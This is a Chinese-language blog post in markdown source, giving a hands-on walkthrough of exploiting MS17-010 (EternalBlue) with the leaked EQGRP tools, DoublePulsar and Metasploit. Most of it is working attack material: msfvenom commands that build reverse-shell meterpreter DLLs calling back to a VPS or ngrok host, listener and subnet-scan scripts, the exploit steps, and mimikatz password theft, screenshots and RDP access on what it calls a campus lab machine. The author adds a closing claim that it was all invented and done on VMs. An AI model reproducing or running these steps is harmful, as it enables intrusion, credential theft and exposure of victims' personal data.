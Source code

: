 ```yaml
---
title: MS17 010 复现
date: 2017-05-13 16:49:06
tags: Metasploit
---
```


[影响范围看这里][影响范围看这里]，据说利用漏洞来勒索的病毒都有了： [NSA “永恒之蓝”勒索蠕虫爆发，开机即可被勒索][NSA “永恒之蓝”勒索蠕虫爆发，开机即可被勒索]

针对校内用户的解决办法：

> 关闭445 3389 等端口
  利用路由器（起到隔离作用就行），尽量不要网线直连电脑

不行，这张图我可以笑一天（233~

电子屏幕: 我只是一块显示通知的电子屏幕，我做错了什么QAQ
![电子屏幕][电子屏幕]

<!--more-->

## Requirement
1. [ngrok][ngrok]
3. [PentestBox With Metasploit][PentestBox With Metasploit] OR [Kali Linux][Kali Linux]
4. [Python2.6.6][Python2.6.6] + [pywin32][pywin32]
5. [EQGRP_Lost_in_Translation][EQGRP_Lost_in_Translation]
 
吐槽1：Win下执行0Day，却要反弹Shell到虚拟机的Kali Linux？？？
吐槽2：Kali Linux的虚拟机镜像远不如直接安装ISO稳定
吐槽3：**路由器IP（192.168.1.x）生成的Payload不能在内网（127.27.x.x）反弹Shell**

所以一会要用到ngrok，或者租个便宜服务器反弹Shell，你喜欢就好~

事实证明**PentestBox**要方便一点，记得下载含**Metasploit**的版本

<br>
## Hack This
### 配置PentestBox
删除`PentestBox\base\python`（2.7.3），然后安装2.6.6版本的Python 和 Pywin32

在`PentestBox\config` 的aliases文件里添加这么一行`python2="%pentestbox_ROOT%\base\python2\python.exe" $*`，打开PentestBox输入`python2 --version`出现版本信息代表命名成功

![python2][python2]

解压`EQGRP_Lost_in_Translation-master`，修改windows目录下的fb文件，注释掉26，27，28，72行
![26-28][26-28]
![72][72]
<br>

### 生成DLL Payload
如果直接在内网的话是可以把下面`VPS_IP`替换成自己的，但是不建议这么做，万一入侵的是**蜜罐+没清除记录+尝试风险操作+长时间在线**，很容易翻车。拿ngrok转发一下本地的端口比较保险。

但是如果内网机器不能访问外网，只能用内网IP生成Payload

x86:

    msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=VPS_IP LPORT=port --platform win -f dll -o x86_tcp.dll
x64:

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=VPS_IP LPORT=port --platform win -f dll -o x64_tcp.dll

### Msfconsole
x86.rb

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set stagerverifysslcert false
    set ExitOnSession false #后台运行
    set LHOST 192.168.1.245 # LHOST
    set LPORT 4444 #监听x86 Payload的端口
    exploit -j -z

x64.rb

    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_tcp
    set stagerverifysslcert false
    set ExitOnSession false
    set LHOST 192.168.1.245
    set LPORT 4445 #监听x64 Payload的端口
    exploit -j -z

开启ngrok转发
![ngrok-port][ngrok-port]
<br>
开两个窗口开始监听

    msfconsole -r x86.rb
    
    msfconsole -r x64.rb
    
![msfconsole][msfconsole]

### 确认内网目标
下载[MS17扫描模块][MS17扫描模块]的rb文件，放到`PentestBox\bin\metasploit-framework\modules\auxiliary\scanner\smb`里面

scan.rb

    use auxiliary/scanner/smb/smb_ms_17_010 #新添加的模块
    set THREADS 16
    set RHOSTS 172.27.10.1-254 #目标网段
    exploit

开始扫描目标网段
    
    msfconsole -r scan.rb

确认目标``172.27.10.21``
![target][target]

<br>
### Attack！  

    python2 fb.py
填好目标和本地IP，转发选择no，使用**Eternalblue**入侵模块
![ip][ip]
一路回车到这个地方，选择平台和攻击方式**1) FB**
![arch-fb][arch-fb]
继续回车，出现这个代表入侵成功
![Eternalblue][Eternalblue]
<br>
再使用**Doublepulsar**模块来反弹Shell，根据平台填入我们刚才生成的DLL Payload

**ProcessName一定要填写目标主机正在运行的进程名，否则会使目标主机自动关机或注销， 一般填svchost.exe**
![Doublepulsar][Doublepulsar]
<br>
一路回车后就应该能看到ngrok有转发的效果和msf成功反弹的Shell了
![ngrok-reverse][ngrok-reverse]
<br>
![Shell][Shell]
<br>

## Shell仅仅只是开始
如果有入侵经验的人一定知道我想表达什么
> 目前权限是否为SYSTEM，如果不是，该怎么提权？提权会不会引起注意？
  目标主机装有杀毒软件的时候怎么Bypass UAC拿到当前用户密码？
  要是目标主机突然关机了该如何进行下一次渗透？亦或者留下隐藏后门进行持续性控制？
  端口转发该用什么工具？使用过程是否灵活？
  拿下一台服务器权限后怎么进一步扩大战果？内网漫游怎么尽快获取域控的最高权限以便拿下整个内网？
  如何有效收集你想要的信息？ 
  如何尽可能清除入侵记录？
  。。。。。。

运气不错，目标主机（实验室的电脑）没有360，`get system`就拿到了管理员权限，看看在干嘛

    screenshot -q 100 -p F:\\Hacker\\PentestBox\\output\\test.jpeg
![screenshot][screenshot]
<br>
![screenshot2][screenshot2]
<br>
这个时间点（12:49 PM）应该不在电脑前，估计是忘记锁屏了
利用mimikatz神器拿到用户密码

    load mimikatz
    mimikatz_command -f sekurlsa::searchPasswords
![password][password]
<br>
然后`run getgui -e`开启远程桌面连接，直接连上去了

然后打开硬盘看看能收集到什么有用的信息
![班级][班级]
<br>
![上网账号][上网账号]
<br>
![sad][sad]
<br>
后台居然还挂着个百度盘。。。
![百度盘][百度盘]
<br>
![excited][excited]
<br>
**我们不开车！
我们不开车！
我们不开车！**


**----------------严肃的分割线----------------**
手机安装了百度盘客户端的，可能不小心（被）设置了手机自动备份，那么手机里面的相册，音乐，甚至是通讯录都会自动保存到百度盘。。。
![个人信息][个人信息]
<br>

## END?
每次都打这么多命令很烦的，对于我这种懒人来说，有一条法则永远通用：
        
> 如果某些事情，甚至可以说是任何事情，哪怕只需要花费他超过90 秒的时间，那他会写脚本来自动处理那些事情

嗯，我知道你们看得懂，批量扫描内网主机的任务就交给你们写了（Python可以操作CMD，多进程，加油~
![lan][lan]
<br><br>

![内网漫游][内网漫游]
<br>
**以上全部的入侵内容都是我编的，入侵操作仅在本地虚拟机进行，切勿违法使用**

    最近沉迷Powershell提权（Bypass UAC，后门持续控制）和BadUSB无法自拔。后续文章更新等放假再说吧
**Shell仅仅只是开始。。。**

<br><br>
> **这个打赏二维码好像有什么不对**
**支付宝** 
![支付宝][支付宝]
**微信**  
![微信][微信]
[支付宝]: https://of4jd0bcc.qnssl.com/Blog/%E6%89%93%E8%B5%8F/alipay/shakalaka_ailipay.gif?imageView2/1/w/200/h/200
[微信]: https://of4jd0bcc.qnssl.com/Blog/%E6%89%93%E8%B5%8F/wechat/patapon_wechat.gif?imageView2/1/w/200/h/200

[影响范围看这里]: https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
[NSA “永恒之蓝”勒索蠕虫爆发，开机即可被勒索]: http://www.leiphone.com/news/201705/iGXUMArn1cP1livY.html
[电子屏幕]: https://of4jd0bcc.qnssl.com/smb/%E7%94%B5%E5%AD%90%E5%B1%8F%E5%B9%95.png
[ngrok]: https://github.com/inconshreveable/ngrok
[Metasploit]: https://github.com/rapid7/metasploit-framework
[Python2.6.6]: https://www.python.org/download/releases/2.6.6/
[pywin32]: https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/
[PentestBox With Metasploit]: https://pentestbox.org/
[Kali Linux]: https://www.kali.org/
[EQGRP_Lost_in_Translation]: https://github.com/x0rz/EQGRP_Lost_in_Translation
[python2]: https://of4jd0bcc.qnssl.com/smb/python2.png
[26-28]: https://of4jd0bcc.qnssl.com/smb/26-28.png
[72]: https://of4jd0bcc.qnssl.com/smb/72.png
[ngrok]: https://of4jd0bcc.qnssl.com/smb/ngrok.png
[msfconsole]: https://of4jd0bcc.qnssl.com/smb/msfconsole.png
[MS17扫描模块]: https://github.com/RiskSense-Ops/MS17-010/tree/master/scanners
[target]: https://of4jd0bcc.qnssl.com/smb/target.png
[ip]: https://of4jd0bcc.qnssl.com/smb/ip.png
[arch-fb]: https://of4jd0bcc.qnssl.com/smb/arch-fb.png
[Eternalblue]: https://of4jd0bcc.qnssl.com/smb/Eternalblue.png
[Doublepulsar]: https://of4jd0bcc.qnssl.com/smb/Doublepulsar.png
[ngrok-reverse]: https://of4jd0bcc.qnssl.com/smb/ngrok-reverse.png
[Shell]: https://of4jd0bcc.qnssl.com/smb/Shell.png
[screenshot]: https://of4jd0bcc.qnssl.com/smb/screenshot.jpg
[screenshot2]: https://of4jd0bcc.qnssl.com/smb/screenshot2.jpg
[password]: https://of4jd0bcc.qnssl.com/smb/password.png
[班级]: https://of4jd0bcc.qnssl.com/smb/%E7%8F%AD%E7%BA%A7.png
[上网账号]: https://of4jd0bcc.qnssl.com/smb/%E4%B8%8A%E7%BD%91%E8%B4%A6%E5%8F%B7.png
[sad]: https://of4jd0bcc.qnssl.com/smb/sad.png?imageView2/1/w/200/h/200
https://of4jd0bcc.qnssl.com/smb/%E7%99%BE%E5%BA%A6%E7%9B%98.png
[excited]: https://of4jd0bcc.qnssl.com/smb/excited2.png
[百度盘]: https://of4jd0bcc.qnssl.com/smb/%E7%99%BE%E5%BA%A6%E7%9B%98.png
[个人信息]: https://of4jd0bcc.qnssl.com/smb/%E4%B8%AA%E4%BA%BA%E4%BF%A1%E6%81%AF.png
[内网漫游]: https://of4jd0bcc.qnssl.com/smb/%E5%86%85%E7%BD%91%E6%BC%AB%E6%B8%B8.png
[lan]: https://of4jd0bcc.qnssl.com/smb/lan.png